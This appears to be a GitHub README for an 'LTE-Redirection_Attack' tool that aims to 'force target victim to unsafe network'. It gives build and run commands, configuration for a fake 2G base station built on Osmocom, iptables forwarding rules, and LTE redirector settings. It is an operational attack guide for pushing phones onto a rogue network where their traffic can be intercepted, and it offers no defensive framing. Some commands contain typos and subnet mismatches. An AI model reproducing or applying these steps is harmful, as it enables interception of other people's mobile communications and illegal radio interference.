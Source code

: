 [!(https://youtu.be/0aruLybY__w)]

# LTE-Redirection_Attack
Force target victim to unsafe network


Tested on ubuntu 22.04

## Build
```bash
sudo ./build.sh
```


## Run

```bash
sudo ./run.sh
```

2G EGPRS Fake base Station :

Change if not in osmocom terminal osmo-bsc.cfg remote ip 192.168.1.23 by your internet interface : remote ip 192.168.X.X
Change in osmo-sgsn.cfg bind udp local, listen 192.168.1.23 by yours


In Osmocom Popped Terminal (change MCC//MNC accordingly in osmo-bsc.cfg osmo-bsc.cfg)

```bash
./tun.sh
./osmo-all.sh start
osmo-trx-uhd
```

Forward your ip in host terminal:
```bash
bash reset_iptables.sh
./srsepc_if_masq.sh your_interface
iptables -A POSTROUTING -t nat -s 176.16.32.0/20 ! -d 176.32.16.0/20 -j MASQUERADE
./srsepc_if_masq.sh your_interface
```


LTE Node redirector

```bash
write mcc (replace)
write mnc (relace)
wirte tracking_area_code (replace)
write mcc (replace)
write mnc (replace)
write band (replace)
write dl_earfcn (replace)
write tx_gain 80
write rx_gain 30
start
``` 
